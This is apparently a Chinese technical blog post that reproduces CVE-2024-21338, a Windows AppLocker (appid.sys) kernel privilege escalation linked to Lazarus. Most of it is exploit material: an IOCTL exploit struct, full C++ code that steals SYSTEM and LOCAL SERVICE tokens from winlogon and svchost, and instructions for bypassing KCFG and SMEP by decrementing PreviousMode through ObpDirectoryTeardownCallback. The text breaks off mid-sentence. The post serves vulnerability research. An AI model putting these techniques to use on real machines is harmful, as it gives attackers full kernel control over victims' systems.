










# 被 Lazarus 组织 长期利用的漏洞：Windows AppLocker 内核模式权限提升漏洞复现

## 一、漏洞概述
**CVE-2024-21338** 是微软于 2024 年 2 月的周二补丁日披露的 Windows 内核权限提升高危漏洞，CVSS 3.1 评分为 7.8（高危），存在于 Windows 内置的 **AppLocker** 应用白名单驱动 **appid.sys** 中。

该漏洞的核心危害在于，攻击者可通过精心构造的 IOCTL 请求，在内核态触发任意函数调用，最终从用户模式突破至内核模式执行代码，实现完整的系统控制。

更值得关注的是，该漏洞在补丁发布前已被朝鲜 **Lazarus** 黑客组织利用长达半年的时间，用于其 **FudModule rootkit** 的内核权限获取，彻底替代了此前易被检测的 **BYOVD(自带漏洞驱动)** 攻击模式。

## 二、前置条件与关键限制

### 2.1 系统版本
该漏洞已于 **2024 年 2 月 13 日** 修复，建议使用 **Windows 10 1709** 等微软在 **2024 年 2 月 13 日** 之前停止支持的 Windows 系统版本进行测试。

### 2.2 开启 Application Identity 服务
在 Windows 系统中，需要开启 Application Identity 服务，才能利用该漏洞。
在 services.msc 中，找到 Application Identity 服务并手动启动。


### 2.3 权限上下文
通过拆解`0x22A018`控制码可知，该控制码需要具有写入权限的句柄，才能成功触发。
我们打开 WinObj 工具，找到 AppID，如图所示：


可以看出，管理员无权限对设备对象进行写操作，只有在 LOCAL SERVICE 的权限上下文中才具备对设备对象的写操作权限。

### 2.4 缓解措施
- **SMEP**：由于 SMEP 禁止内核态直接执行用户态内存的代码，阻止攻击者直接跳转到用户态 shellcode 执行。
- **KCFG**（内核控制流防护）：对内核态的间接调用进行合法性校验，仅允许调用标记为合法的函数入口地址，是 Windows 内核重要的控制流完整性防护机制，仅当 VBS（基于虚拟化的安全）启用时完全生效。
- **PreviousMode**：Windows 内核中 KTHREAD 结构体的一个字段，用于标记当前线程的请求来源（0 = 内核态，1 = 用户态）。内核 API 会根据该字段判断内存地址的合法性，若能将其修改为 0，用户态程序可直接调用内核 API 实现任意内核内存读写。

## 三、触发漏洞的原理
漏洞的核心缺陷位于appid.sys对 IOCTL 控制码`0x22A018`的处理函数中，本质是对用户态传入的指针完全缺乏合法性校验，导致任意内核函数调用能力。
```cpp
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 userBuffer,
        __int64 (__fastcall **a2)(__int64, char *),
        unsigned int a3,
        __int64 a4)
{
  ULONG v5; // r13d
  int v6; // r12d
  NTSTATUS v7; // edi
  SIZE_T v8; // rbx
  __int64 v9; // rdi
  PVOID pbInput; // r14
  SIZE_T v11; // rcx
  ULONG cbInput; // esi
  int v13; // ecx
  PVOID PoolWithTag; // rax
  int v15; // eax
  UCHAR *v16; // r12
  int v17; // r9d
  unsigned int v18; // ecx
  _DWORD *v19; // rax
  __int64 v20; // r13
  int v21; // esi
  int v22; // eax
  ULONG v23; // eax
  BOOL v24; // r12d
  unsigned __int64 v25; // rsi
  unsigned int v26; // esi
  unsigned __int16 *v27; // rbx
  int IsPeImage; // [rsp+40h] [rbp-69h]
  int v31; // [rsp+50h] [rbp-59h] BYREF
  __int64 v32; // [rsp+58h] [rbp-51h] BYREF
  ULONG v33[2]; // [rsp+60h] [rbp-49h]
  ULONG v34; // [rsp+68h] [rbp-41h] BYREF
  unsigned __int64 v35; // [rsp+70h] [rbp-39h] BYREF
  __int64 v36; // [rsp+78h] [rbp-31h] BYREF
  SIZE_T NumberOfBytes; // [rsp+80h] [rbp-29h]
  UCHAR *v38; // [rsp+88h] [rbp-21h] BYREF
  __int64 (__fastcall **v39)(__int64, char *); // [rsp+90h] [rbp-19h]
  __int64 v40; // [rsp+98h] [rbp-11h]
  UCHAR v41[8]; // [rsp+A0h] [rbp-9h] BYREF
  char v42[8]; // [rsp+A8h] [rbp-1h] BYREF
  ULONG v43[2]; // [rsp+B0h] [rbp+7h]

  v39 = a2;
  v40 = userBuffer;
  v5 = 0;
  IsPeImage = 0;
  v6 = 0;
  v36 = 0;
  v38 = nullptr;
  v31 = 0;
  v33[1] = 0;
  *(_QWORD *)v41 = 0;
  if ( a3 )
  {
    v7 = (*a2)(userBuffer, v42);
    if ( v7 < 0 )
      return (unsigned int)v7;
   ...
  }
}
```
在`(*a2)(userBuffer, v42)`中，第一个参数正是内核态从用户态拷贝过来的缓冲区基址。
```cpp
      v13 = AppHashComputeFileHashesInternal(
              userBuffer,
              *(_QWORD *)(userBuffer + 16),
              (__int64)v20 + 4,
              a3 + 204,
              (_DWORD *)a3 + 75);
```
而`a2`则是`userBuffer`的`0x10`偏移，指向一个函数指针，用于调用用户态传入的函数地址。
整体调用如下：
```
AipSmartHashImageFile
│
└── 调用 → AppHashComputeFileHashesInternal
    │
    └── 调用 → AppHashComputeImageHashInternal
```
总的结构体定义如下：
```cpp
#pragma pack(push,1)
typedef struct _APPID_KERNEL_EXPLOIT
{
	DWORD64 Reserved;       // 攻击者控制：回调函数的第一个参数
	PVOID pFileObject;      // 一些Windows系统版本中，该字段必须指向合法的内核文件对象，否则在执行时会直接返回失败
	PVOID Shellcode;        // 攻击者控制：要调用的内核回调数组地址
	DWORD Reserved2;        // 保留字段
	DWORD Reserved3;        // 保留字段
}APPID_KERNEL_EXPLOIT, * PAPPID_KERNEL_EXPLOIT;
#pragma pack(pop)
```

**注意事项**
1. 第二个字段建议指向一个合法的内核文件对象，否则在特定 Windows 系统版本中执行时会直接返回失败，不会触发回调函数。
2. 第三个字段是一个二级回调函数指针，需要存放两个回调函数的地址值。
3. 回调函数的地址值必须是内核态可执行的函数地址，否则会触发SMEP导致蓝屏。

## 四、漏洞利用实现

### 4.1 获取 LOCAL SERVICE 权限
由于appid.sys的设备仅允许 Local Service 进行写访问，攻击者需要获取该身份的模拟令牌
管理员无法直接复制 svchost.exe 进程的令牌，所以先获取 SYSTEM 权限。
代码如下：
```cpp
BOOL EnablePrivileges(HANDLE hToken, bool* isAllAccess) {
    BOOL isTokenInternal = (hToken == NULL);
    BOOL bResult = FALSE;
    if (hToken == NULL)
    {
        // 1. 获取当前进程令牌句柄
        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
            //printf("OpenProcessToken failed: %d\n", GetLastError());
            return FALSE;
        }
    }
    // 2. 查找5个权限的LUID
    LUID luidDebug, luidImpersonate, luidAssignPrimaryToken, luidIncreaseQuota, luidTcbName;
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luidDebug) ||
        !LookupPrivilegeValue(NULL, SE_IMPERSONATE_NAME, &luidImpersonate) ||
        !LookupPrivilegeValue(NULL, SE_ASSIGNPRIMARYTOKEN_NAME, &luidAssignPrimaryToken) ||
        !LookupPrivilegeValue(NULL, SE_INCREASE_QUOTA_NAME, &luidIncreaseQuota)) {
        //printf("LookupPrivilegeValue failed: %d\n", GetLastError());
        if (isTokenInternal && hToken != NULL)
        {
            CloseHandle(hToken);
        }
        return bResult;
    }

    // 3. 构造权限数组
    std::vector<LUID_AND_ATTRIBUTES> privs;
    privs.reserve(4);
    privs.push_back({ luidDebug ,SE_PRIVILEGE_ENABLED });
    privs.push_back({ luidImpersonate ,SE_PRIVILEGE_ENABLED });
    privs.push_back({ luidAssignPrimaryToken ,SE_PRIVILEGE_ENABLED });
    privs.push_back({ luidIncreaseQuota ,SE_PRIVILEGE_ENABLED });
    size_t bufferSize = sizeof(TOKEN_PRIVILEGES) + (privs.size() - 1) * sizeof(LUID_AND_ATTRIBUTES);
    auto buffer = std::make_unique<BYTE[]>(bufferSize); // 堆分配
    auto tp = reinterpret_cast<TOKEN_PRIVILEGES*>(buffer.get());
    tp->PrivilegeCount = privs.size();
    std::copy(privs.begin(), privs.end(), tp->Privileges);
    // 4. 应用权限修改
    if (!AdjustTokenPrivileges(hToken, FALSE, tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
        //printf("AdjustTokenPrivileges failed: %d\n", GetLastError());
        bResult = FALSE;
        goto CLEANUP;
    }
    DWORD dwError;
    if (isAllAccess != NULL)
    {
        dwError = GetLastError();
        *isAllAccess = (dwError == ERROR_SUCCESS);
        bResult = (dwError == ERROR_SUCCESS || dwError == ERROR_NOT_ALL_ASSIGNED);
    }
    else
    {
        bResult = TRUE;
    }
CLEANUP:
    if (isTokenInternal && hToken != NULL)
    {
        CloseHandle(hToken);
        hToken = NULL;
    }
    return bResult;
}
bool GetSystemToken(PHANDLE hSystemToken, TOKEN_TYPE TokenType)
{
    HANDLE WlogProcess;
    if (EnablePrivileges() == false)
    {
        // 提权失败处理
        //MessageBoxA(NULL, "提权失败", "错误", MB_ICONERROR | MB_OK);
        return false;
    }
    HANDLE hToken;
    HANDLE hProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcesses == INVALID_HANDLE_VALUE)
    {
        return false;
    }
    PROCESSENTRY32 Process;
    DWORD ProcessID;
    Process.dwSize = sizeof(PROCESSENTRY32);
    if (Process32First(hProcesses, &Process))
    {
        do
        {
            if (wcscmp(Process.szExeFile, L"winlogon.exe") == 0)
            {
                ProcessID = Process.th32ProcessID;
                break;
            }
        } while (Process32Next(hProcesses, &Process));
    }
    else
    {
        CloseHandle(hProcesses);
        return false;
    }
    CloseHandle(hProcesses);
    WlogProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, ProcessID);
    if (WlogProcess == NULL)
    {
        /*DWORD error = GetLastError();
        char msg[256];
        sprintf_s(msg, "OpenProcess失败，错误码：%d", error);
        MessageBoxA(NULL, msg, "错误", MB_ICONERROR | MB_OK);*/
        return false;
    }
    if (!OpenProcessToken(WlogProcess, TOKEN_DUPLICATE | TOKEN_QUERY, &hToken))
    {
#if _DEBUG
        DWORD error = GetLastError();
        cout << "OpenProcessToken失败，错误码：" << error << endl;
#endif
        CloseHandle(WlogProcess);
        return false;
    }
    if (!DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenType, hSystemToken))
    {
        DWORD error = GetLastError();
#if _DEBUG
        cout << "DuplicateToken失败 " << "错误码：" << error<< endl;
#endif // _DEBUG
        CloseHandle(hToken);
        CloseHandle(WlogProcess);
        return false;
    }
    CloseHandle(WlogProcess);
    CloseHandle(hToken);
    return true;
}
BOOL GetProcessIdArray(const wchar_t* ProcessName,vector<DWORD>* ProcessIdArray)
{
	BOOL result = FALSE;
    if (ProcessName == NULL || ProcessIdArray == NULL)
    {
        SetLastError(ERROR_INVALID_PARAMETER);
        return result;
    }
    ProcessIdArray->clear();
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE)
    {
        return result;
	}
    PROCESSENTRY32W pe = { 0 };
    pe.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe))
    {
        do
        {
            if (wcscmp(pe.szExeFile, ProcessName) == 0)
            {
                ProcessIdArray->push_back(pe.th32ProcessID);
                result = TRUE;
            }
        } while (Process32NextW(hSnapshot, &pe));
    }
	CloseHandle(hSnapshot);
    return result;
}
```
通过复制 Winlogon.exe 进程中的 SYSTEM 令牌并模拟权限上下文，再遍历 svchost 进程比对对应 Local Service 的 SID 并复制 LOCAL SERVICE 令牌，最后模拟 LOCAL SERVICE 权限上下文。
比对 Local Service SID 的代码如下：
```cpp
BOOL IsUserSidProcess(DWORD ProcessID, const wchar_t* SidName, PHANDLE hToken, TOKEN_TYPE TokenType)
{
    if(!ProcessID)
    {
        SetLastError(ERROR_INVALID_PARAMETER);
        return FALSE;
	}
    PTOKEN_USER tokenUser = NULL;
    BOOL result = FALSE;
    HANDLE hProcess = NULL;
    HANDLE hProcessToken = NULL;
    PSID sid = NULL;
    do
    {
		hProcess = OpenProcess(PROCESS_QUERY_INFORMATION| PROCESS_QUERY_LIMITED_INFORMATION, FALSE, ProcessID);
        if (hProcess == NULL)
        {
            break;
        }
		DWORD Size = 0;
        if (!ConvertStringSidToSidW(SidName, &sid))
        {
            DWORD error = GetLastError();
            cout << "Failed to ConvertStringSidToSid. error code: " << error << endl;
			break;
        }
        if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_QUERY, &hProcessToken))
        {
            DWORD error = GetLastError();
            cout << "Failed to OpenProcessToken. error code: " << error << endl;
            break;
        }
        if (!GetTokenInformation(hProcessToken, TokenUser, NULL, 0, &Size) && GetLastError()!= ERROR_INSUFFICIENT_BUFFER)
        {
            cout << "Failed to get buffer size." << endl;
            break;
        }
		tokenUser = (PTOKEN_USER)LocalAlloc(LPTR, Size);
        if (!tokenUser)
        {
            DWORD error = GetLastError();
            cout << "Failed to allocate memory. error code: " << error << endl;
            break;
        }
		if (!GetTokenInformation(hProcessToken, TokenUser, tokenUser, Size, &Size))
        {
            DWORD error = GetLastError();
            cout << "Failed to GetTokenInformation. error code: " << error << endl;
            break;
        }
        if (EqualSid(tokenUser->User.Sid,sid))
        {
            cout << "[PID:" << ProcessID << "] EqualSid 匹配成功！" << endl;
            result = TRUE;
            if (hToken)
            {
                if (!DuplicateTokenEx(hProcessToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenType, hToken))
                {
                    DWORD err = GetLastError();
                    cout << "Failed to Local Service DuplicateToken. error code: " << err << endl;
                    result = FALSE;
                }
            }
		}
    } while (FALSE);
    if (sid)
    {
        LocalFree(sid);
    }
    if (tokenUser)
    {
		LocalFree(tokenUser);
    }
    if (hProcess)
    {
        CloseHandle(hProcess);
    }
    if (hProcessToken)
    {
		CloseHandle(hProcessToken);
    }
    return result;
}
```

### 4.2 获取内核写原语并触发漏洞
我们并不能直接找碎片化的gadget作为原语，因为 KCFG 会验证回调函数的地址是否为合法的内核函数地址，如果不是合法函数地址，执行时就会导致蓝屏。

虽然 KCFG 和 SMEP 极大地限制了攻击者通过漏洞执行任意代码的难度，但实际上并不能阻止我们利用漏洞进行提权。

因为攻击者只需找到一个符合 KCFG 的合法内核写原语作为我们的回调函数，那这些安全机制自然就被绕过了。

[在nero22k的这篇文章](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/)里 讲过可以使用`ExpProfileDelete`进行内核写操作，将自己线程里的`PreviousMode`字段通过`ObfDereferenceObject`将其递减为0，从而将当前线程的权限提升为内核态。

虽然这是一个符合 KCFG 的函数，但实际上极力不推荐使用此函数，我通过 IDA 将其反汇编如下：
```asm
PAGE:00000001407570A0 ExpProfileDelete proc near              ; DATA XREF: .pdata:00000001403EC4F4↑o
PAGE:00000001407570A0                                         ; ExpProfileInitialization+46↓o
PAGE:00000001407570A0                 push    rbx
PAGE:00000001407570A2                 sub     rsp, 20h
PAGE:00000001407570A6                 cmp     qword ptr [rcx+30h], 0
PAGE:00000001407570AB                 mov     rbx, rcx
PAGE:00000001407570AE                 jz      short loc_1407570DA
PAGE:00000001407570B0                 mov     rcx, [rcx+28h]
PAGE:00000001407570B4                 call    KeStopProfile
PAGE:00000001407570B9                 mov     rdx, [rbx+38h]  ; MemoryDescriptorList
PAGE:00000001407570BD                 mov     rcx, [rbx+30h]  ; BaseAddress
PAGE:00000001407570C1                 call    MmUnmapLockedPages
PAGE:00000001407570C6                 mov     rcx, [rbx+38h]  ; MemoryDescriptorList
PAGE:00000001407570CA                 call    MmUnlockPages
PAGE:00000001407570CF                 mov     rcx, [rbx+28h]  ; P
PAGE:00000001407570D3                 xor     edx, edx        ; Tag
PAGE:00000001407570D5                 call    ExFreePoolWithTag
PAGE:00000001407570DA
PAGE:00000001407570DA loc_1407570DA:                          ; CODE XREF: ExpProfileDelete+E↑j
PAGE:00000001407570DA                 mov     rcx, [rbx]      ; Object
PAGE:00000001407570DD                 test    rcx, rcx
PAGE:00000001407570E0                 jz      short loc_1407570EC
PAGE:00000001407570E2                 mov     edx, 66507845h  ; Tag
PAGE:00000001407570E7                 call    ObfDereferenceObjectWithTag
PAGE:00000001407570EC
PAGE:00000001407570EC loc_1407570EC:                          ; CODE XREF: ExpProfileDelete+40↑j
PAGE:00000001407570EC                 add     rsp, 20h
PAGE:00000001407570F0                 pop     rbx
PAGE:00000001407570F1                 retn
PAGE:00000001407570F1 ExpProfileDelete endp
```

```cpp
void __fastcall ExpProfileDelete(__int64 a1)
{
  if ( *(_QWORD *)(a1 + 0x30) )
  {
    KeStopProfile(*(_QWORD *)(a1 + 0x28));
    MmUnmapLockedPages(*(PVOID *)(a1 + 0x30), *(PMDL *)(a1 + 0x38));
    MmUnlockPages(*(PMDL *)(a1 + 0x38));
    ExFreePoolWithTag(*(PVOID *)(a1 + 0x28), 0);
  }
  if ( *(_QWORD *)a1 )
    ObfDereferenceObjectWithTag(*(PVOID *)a1, 0x66507845u);
}
```
在`ExpProfileDelete`中，我们发现该函数会检查`a1+0x30`处是否为0，若为非零值，就会执行该分支。a1是我们传入到内核的缓冲区基址，而我们最多也就传入了`0x18`或者`0x20`字节，而`a1+0x30`处的内存地址不属于我们传入的缓冲区，当对`a1+0x30`处的内存地址进行解映射操作时，会触发蓝屏。

我们用 WinDbg 给`ExpProfileDelete`函数下个断点：

在`rcx+0x30`处，我们发现该地址的值为0，说明该分支不会执行。会继续执行`ObfDereferenceObjectWithTag`函数。

但当`rcx+0x30`处的内存地址不为0时，情况就不一样了：

如果我们再往下，就会执行第一个分支里面的代码，从而将`rcx+0x30`处的内存地址解映射，导致蓝屏。

值得庆幸的是，我找到了另一个相对更安全的内核写原语，那就是`ObpDirectoryTeardownCallback`函数，它同样也会调用`ObfDereferenceObjectWithTag`函数，将其递减为0，从而将当前线程的权限提升为内核态。

在找到`ObpDirectoryTeardownCallback`函数后，我们就可以顺理成章地将`(*a2)(userBuffer, v42)`的地址指向该函数，从而触发漏洞。

你以为这样就完事了吗？那就大错特错了，你确实成功触发了漏洞，但也因此导致了蓝屏或者永远留在了死循环中。
请看以下反 C 代码：
```cpp
if ( a3 )
  {
    v7 = (*a2)(userBuffer, v42);
    if ( v7 < 0 )
      return (unsigned int)v7;
    v8 = *(_QWORD *)v43;
    v9 = 0x10000;
    v35 = *(_QWORD *)v43;
    pbInput = ExAllocatePoolWithTag((POOL_TYPE)512, 0x10000u, 0x48707041u);
    if ( !pbInput )
      return (unsigned int)-1073741801;
    v32 = 0;
    v11 = v8;
    NumberOfBytes = v8;
    cbInput = 0x10000;
    if ( v8 )
    {
      while ( 1 )
      {
        if ( cbInput > v11 )
          cbInput = v11;
        v7 = ((__int64 (__fastcall *)(__int64, __int64 *, _QWORD, PVOID))v39[1])(v40, &v32, cbInput, pbInput);
        if ( v7 < 0 )
          goto LABEL_74;
        if ( v32 )
        {
          v15 = v31;
        }
        ...
      }
    }
    ...
  }
```
我们需要给`((__int64 (__fastcall *)(__int64, __int64 *, _QWORD, PVOID))v39[1])(v40, &v32, cbInput, pbInput)`找一个合适的回调函数地址，使其返回的值小于0，从而跳出这个死循环。我觉得`ZwQuerySystemInformation`是一个很好的的选择，这个函数指针第一个参数传的就是地址值，而`ZwQuerySystemInformation`的第一个参数是枚举值，远小于地址值，若第一个参数是无效的枚举值，函数便会直接返回失败，也就是小于0的值，然后直接跳出循环。

以我对 Windows 内核的了解，`ObfDereferenceObjectWithTag`会对目标对象体对应的OBJECT_HEADER结构体中的`PointerCount`字段也就是在对象体的`0x30`负偏移处进行递减操作。所以我们在`APPID_KERNEL_EXPLOIT`第一个字段填写目标`PreviousMode`字段的地址加上`0x30`即可将`PreviousMode`字段递减为0，从而将当前线程的权限提升为内核态。

尽管`ObpDirectoryTeardownCallback`利用方式相对稳健，但仍存在内存篡改风险——具体表现为破坏自身`ETHREAD`结构体的特定字段。该影响在初始阶段可能不明显，但为实现可靠的权限提升，建议采用双线程架构：
1. 主线程首先创建**跳板线程(线程A)** 和 **攻击线程(线程B)**
